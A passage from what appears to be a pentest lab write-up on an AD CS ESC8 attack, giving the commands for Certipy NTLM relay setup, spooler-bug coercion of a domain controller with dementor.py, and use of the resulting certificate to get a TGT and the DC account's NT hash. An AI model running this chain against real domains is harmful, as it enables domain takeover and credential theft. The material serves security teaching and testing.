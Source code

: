 ## Notice me Certipy

As I mentioned earlier, you could actually perform most of the attack chain with Certipy. Additionally, Certipy can exploit many more AD CS misconfigurations and will be my go-to tool in the future when it comes to attacking AD CS.


### NTLM Relay Setup

```bash
sudo certipy relay -ca ca.lab.local -template DomainController
```

![certipy-relay-setup](/images/ad/adcs-esc8/certipy-relay-setup.png)


### Coercing Authentication of the DC to our Attacker Machine

To keep things a little interesting at this point, let's use [3xocyte's dementor.py](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) script to exploit the print spooler ([SpoolSample](https://github.com/leechristensen/SpoolSample)) bug. This will have the same effect of coercing authentication of the DC to our attacker machine.

Check if the Print System Remote Protocol (`spoolss`) is enabled by querying the [RPC UUID](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/848b8334-134a-4d02-aea4-03b673d6c515) using [impacket's rpcdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) script:

```bash
python3 impacket/examples/rpcdump.py dc.lab.local | grep "12345678-1234-ABCD-EF00-0123456789AB" -B 2
```

![rpcdump-spoolss](/images/ad/adcs-esc8/rpcdump-spoolss.png)

`python3 dementor.py <attacker-ip> <target-ip> -u <username> -p <password> -d <domain>`

```bash
python3 NetNTLMtoSilverTicket/dementor.py 172.30.0.232 172.30.0.136 -u jdoe -p Password123 -d lab.local
```

![certipy-dementor-execute](/images/ad/adcs-esc8/certipy-dementor-execute.png)

If the relay attack is successful, the certificate and private key will be saved as a PFX file - `dc.pfx` in this instance.


### Pass-the-Ticket or UnPAC and Pass-the-Hash

Similar to how to did before, we can obtain a TGT and recover the NT hash of the DC machine account using the `auth` command of Certipy. As per the readme:

> The  `auth` command will use the PKINIT Kerberos extension to authenticate with the provided certificate to retrieve a TGT and the NT hash of the user.
